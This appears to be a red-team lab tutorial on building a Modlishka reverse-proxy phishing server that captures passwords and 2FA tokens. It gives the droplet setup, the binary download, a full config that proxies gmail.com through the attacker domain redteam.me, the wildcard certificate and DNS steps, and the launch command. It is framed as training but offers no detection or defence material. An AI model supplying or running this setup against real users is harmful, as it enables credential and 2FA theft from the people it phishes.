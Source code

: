 ```yaml
---
layout: post
title: "how to setup modliska reverse http proxy for phishing"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /how-to-setup-modliska-reverse-http-proxy-for-phishing/
---
```


---
layout: post
title: "how to setup modliska reverse http proxy for phishing"
date: 2024-06-18
categories: red-team-infrastructure
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /how-to-setup-modliska-reverse-http-proxy-for-phishing/
---

# Phishing with Modlishka Reverse HTTP Proxy

This lab shows how to setup a reverse HTTP proxy `Modlishka` that can be used in phishing campaigns to steal user passwords and 2FA tokens. Modlishka makes this possible, because it sits in the middle between the website you as an attacker are impersonating and the victim (MITM) while recording all the traffic/tokens/passwords that traverse it.

## Setup

Let's start off by building a new DigitalOcean droplet, the smallest is more than enough:

![](<../../.gitbook/assets/Annotation 2019-06-25 214151.png>)

Once logged on, install certbot and download modlishka binary itself:

```bash
apt install certbot
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64 ; ls -lah
```

![](<../../.gitbook/assets/Annotation 2019-06-25 214300.png>)

## Modlishka Configuration

Let's create a configuration file for modlishka:

![](<../../.gitbook/assets/Annotation 2019-06-25 214425.png>)

{% code title="modlishka.json" %}
```javascript
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```
{% endcode %}

## Wildcard Certificates

Important - let's generate a wildcard certificate for my domain I want my phishing victims to land on `*.redteam.me`:

```csharp
certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d *.redteam.me --email noreply@live.com
```

This will generate a challenge code as shown below:

![](<../../.gitbook/assets/Annotation 2019-06-25 214749.png>)

We need to create a DNS TXT record in the DNS management console for redteam.me, which in my case is in Digital Ocean:

![](<../../.gitbook/assets/Annotation 2019-06-25 214849.png>)

Once the DNS TXT record is created, continue with the certificate generation:

![](<../../.gitbook/assets/Annotation 2019-06-25 214924.png>)

Once certificates are generated, we need to convert them to a format suitable to be embedded into JSON objects:

```bash
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem
```

![](<../../.gitbook/assets/Annotation 2019-06-25 215107.png>)

Once that is done, copy over the contents of the certs into the config - `fullchain.pem` into the `cert` and `privkey.pem` into the `certKey`:

![](<../../.gitbook/assets/Annotation 2019-06-25 215155.png>)

## More DNS Records

Let's create an A record for the root host `@` that simply points to the droplet's IP:

![](<../../.gitbook/assets/Annotation 2019-06-25 215308.png>)

This is very important - we need a `CNAME` record for any host/subdomain `*` pointing to `@`

![](<../../.gitbook/assets/Annotation 2019-06-25 215702.png>)

## Launching Modlishka

We are now ready to start the test by launching modlishka and giving it the modlishka.json config file:

```csharp
./Modlishka-linux-amd64 -config modlishka.json
```

Below shows how by visiting a redteam.me, I get presented with contents of gmail.com - indicating that Modlishka and the MITM works. Again, it is important to call it out - we did not create any copies or templates of the targeted website - the victim is actually browsing gmail, it's just that it is being served through Modlishka where the traffic is inspected and passwords are captured:

![](../../.gitbook/assets/modlishka.gif)

## References

{% embed url="https://github.com/drk1wi/Modlishka" %}
@spotheplanet

